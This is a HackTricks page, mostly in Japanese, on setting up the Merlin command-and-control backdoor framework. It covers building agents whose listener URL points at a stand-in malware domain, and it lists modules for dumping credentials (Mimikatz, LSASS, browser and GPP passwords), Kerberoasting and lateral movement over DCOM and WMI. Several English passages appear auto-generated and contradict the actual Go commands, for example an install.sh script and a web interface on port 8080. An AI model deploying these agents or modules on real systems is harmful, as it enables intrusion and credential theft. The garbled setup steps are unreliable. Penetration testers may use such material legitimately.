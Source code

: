 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- **サイバーセキュリティ企業で働いていますか？** **HackTricksで会社を宣伝**したいですか？または、**PEASSの最新バージョンにアクセスしたり、HackTricksをPDFでダウンロード**したいですか？[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！

- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけてください。独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションです。

- [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう。

- [**💬**](https://emojipedia.org/speech-balloon/) [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に**参加**するか、**Twitter**で**フォロー**してください[**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**。**

- **ハッキングのトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>


# インストール

## GOのインストール
```
#Download GO package from: https://golang.org/dl/
#Decompress the packe using:
tar -C /usr/local -xzf go$VERSION.$OS-$ARCH.tar.gz

#Change /etc/profile
Add ":/usr/local/go/bin" to PATH
Add "export GOPATH=$HOME/go"
Add "export GOBIN=$GOPATH/bin"

source /etc/profile
```
## Merlinのインストール

To install Merlin, follow these steps:

1. Download the Merlin backdoor from the official website or a trusted source.
2. Extract the downloaded file to a desired location on your system.
3. Open a terminal or command prompt and navigate to the extracted Merlin directory.
4. Run the installation script by executing the following command: `./install.sh`.
5. Follow the prompts and provide the necessary information during the installation process.
6. Once the installation is complete, you can start using Merlin for backdoor functionality.

Merlinのインストール手順は以下の通りです：

1. 公式ウェブサイトまたは信頼できるソースからMerlinバックドアをダウンロードします。
2. ダウンロードしたファイルをシステム上の任意の場所に展開します。
3. ターミナルまたはコマンドプロンプトを開き、展開したMerlinディレクトリに移動します。
4. 次のコマンドを実行してインストールスクリプトを実行します：`./install.sh`。
5. インストールプロセス中に必要な情報を入力し、指示に従います。
6. インストールが完了したら、Merlinをバックドア機能として使用することができます。
```
go get https://github.com/Ne0nd0g/merlin/tree/dev #It is recommended to use the developer branch
cd $GOPATH/src/github.com/Ne0nd0g/merlin/
```
# Merlinサーバーの起動

To launch the Merlin server, follow the steps below:

1. Download the Merlin server package from the official website.
2. Extract the downloaded package to a desired location on your machine.
3. Open a terminal or command prompt and navigate to the extracted Merlin server directory.
4. Run the following command to start the Merlin server:

   ```bash
   ./merlin-server
   ```

   Note: If you encounter any permission issues, you may need to use `sudo` or run the command as an administrator.

5. Once the server is running, you can access the Merlin web interface by opening a web browser and entering the server's IP address followed by the port number (default is 8080). For example, `http://192.168.0.100:8080`.

By following these steps, you will be able to successfully launch the Merlin server and access its web interface.
```
go run cmd/merlinserver/main.go -i
```
# Merlin エージェント

[事前にコンパイルされたエージェントをダウンロード](https://github.com/Ne0nd0g/merlin/releases)することができます。

## エージェントのコンパイル

メインフォルダ _$GOPATH/src/github.com/Ne0nd0g/merlin/_ に移動します。
```
#User URL param to set the listener URL
make #Server and Agents of all
make windows #Server and Agents for Windows
make windows-agent URL=https://malware.domain.com:443/ #Agent for windows (arm, dll, linux, darwin, javascript, mips)
```
## **エージェントの手動コンパイル**

To manually compile agents, follow these steps:

1. **Choose the programming language**: Select the programming language you want to use for the agent. Common choices include C, C++, Python, and Java.

2. **Write the agent code**: Write the code for the agent, ensuring that it includes the necessary functionality for your specific needs. This may include features such as remote command execution, file system access, or network communication.

3. **Compile the agent**: Use the appropriate compiler for the chosen programming language to compile the agent code into an executable file. This will generate a binary file that can be executed on the target system.

4. **Test the agent**: Before deploying the agent, it is important to test its functionality and ensure that it works as intended. This can be done by running the compiled agent on a test system and verifying its behavior.

5. **Deploy the agent**: Once the agent has been tested and verified, it can be deployed on the target system. This can be done by transferring the compiled agent file to the target system and executing it.

By following these steps, you can manually compile agents to meet your specific requirements.
```
GOOS=windows GOARCH=amd64 go build -ldflags "-X main.url=https://10.2.0.5:443" -o agent.exe main.g
```
# モジュール

**悪いニュースは、Merlinが使用するすべてのモジュールがソース（Github）からダウンロードされ、使用する前にディスクに保存されるということです。よく知られたモジュールを使用する際には注意が必要です。なぜなら、Windows Defenderに検出される可能性があるからです！**


**SafetyKatz** --> 改変されたMimikatz。LSASSをファイルにダンプして、sekurlsa::logonpasswordsをそのファイルに実行します\
**SharpDump** --> 指定されたプロセスIDのminidump（デフォルトはLSASS）（最終ファイルの拡張子は.gzですが、実際は.binですが、.gzファイルです）\
**SharpRoast** --> Kerberoast（動作しません）\
**SeatBelt** --> CSのローカルセキュリティテスト（動作しません）https://github.com/GhostPack/Seatbelt/blob/master/Seatbelt/Program.cs\
**Compiler-CSharp** --> csc.exe /unsafeを使用してコンパイルします\
**Sharp-Up** --> powerupでのC#のすべてのチェック（動作します）\
**Inveigh** --> PowerShellADIDNS/LLMNR/mDNS/NBNSスプーファーおよび中間者攻撃ツール（動作しません、https://raw.githubusercontent.com/Kevin-Robertson/Inveigh/master/Inveigh.ps1をロードする必要があります）\
**Invoke-InternalMonologue** --> 利用可能なすべてのユーザーを偽装し、各ユーザーに対してチャレンジレスポンスを取得します（各ユーザーのNTLMハッシュ）（URLが不正です）\
**Invoke-PowerThIEf** --> IExplorerからフォームを盗み出すか、JSを実行するか、そのプロセスにDLLをインジェクトします（動作しません）（およびPSも動作しないようです）https://github.com/nettitude/Invoke-PowerThIEf/blob/master/Invoke-PowerThIEf.ps1\
**LaZagneForensic** --> ブラウザのパスワードを取得します（動作しますが、出力ディレクトリを表示しません）\
**dumpCredStore** --> Win32 Credential Manager API（https://github.com/zetlen/clortho/blob/master/CredMan.ps1）https://www.digitalcitizen.life/credential-manager-where-windows-stores-passwords-other-login-details\
**Get-InjectedThread** --> 実行中のプロセスでクラシックなインジェクションを検出します（Classic Injection（OpenProcess、VirtualAllocEx、WriteProcessMemory、CreateRemoteThread））（動作しません）\
**Get-OSTokenInformation** --> 実行中のプロセスとスレッドのトークン情報を取得します（ユーザー、グループ、特権、所有者などhttps://docs.microsoft.com/es-es/windows/desktop/api/winnt/ne-winnt-\_token_information_class）\
**Invoke-DCOM** --> DCOMを介して（他のコンピューターで）コマンドを実行します（http://www.enigma0x3.net.）（https://enigma0x3.net/2017/09/11/lateral-movement-using-excel-application-and-dcom/）\
**Invoke-DCOMPowerPointPivot** --> PowerPoint COMオブジェクト（ADDin）を悪用して、他のPCでコマンドを実行します\
**Invoke-ExcelMacroPivot** --> ExcelでDCOMを悪用して、他のPCでコマンドを実行します\
**Find-ComputersWithRemoteAccessPolicies** --> （動作しません）（https://labs.mwrinfosecurity.com/blog/enumerating-remote-access-policies-through-gpo/）\
**Grouper** --> グループポリシーの最も興味深い部分をダンプし、悪用可能なものを探します（非推奨）Grouper2を見てみてください、とても素敵です\
**Invoke-WMILM** --> 横方向に移動するためのWMI\
**Get-GPPPassword** --> groups.xml、scheduledtasks.xml、services.xml、datasources.xmlを検索し、平文のパスワードを返します（ドメイン内）\
**Invoke-Mimikatz** --> mimikatzを使用します（デフォルトのダンプクレデンシャル）\
**PowerUp** --> https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc\
**Find-BadPrivilege** --> コンピューターのユーザーの特権をチェックします\
**Find-PotentiallyCrackableAccounts** --> SPNに関連付けられたユーザーアカウントに関する情報を取得します（Kerberoasting）\
**psgetsystem** --> getsystem

**持続性モジュールはチェックしていません**

# 要約

このツールの感触とポテンシャルが本当に気に入っています。\
ツールがサーバーからモジュールをダウンロードし、スクリプトをダウンロードする際にいくつかの回避手段を組み込むことを願っています。


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- **サイバーセキュリティ企業で働いていますか？ HackTricksであなたの会社を宣伝したいですか？または、最新バージョンのPEASSを入手したり、HackTricksをPDFでダウンロードしたりしたいですか？ [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！**

- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見しましょう、私たちの独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクション

- [**公式のPEASS＆HackTricksのグッズ**](https://peass.creator-spring.com)を手に入れましょう

- **[💬](https://emojipedia.org/speech-balloon/) [Discordグループ](https://discord.gg/hRep4RUj7f)または[Telegramグループ](https://t.me/peass)に参加するか、**Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**をフォローしてください。**

- **ハッキングのトリックを共有するには、[hacktricksリポジトリ](https://github.com/carlospolop/hacktricks)と[hacktricks-cloudリポジトリ](https://github.com/carlospolop/hacktricks-cloud)にPRを提出してください。**

</details>
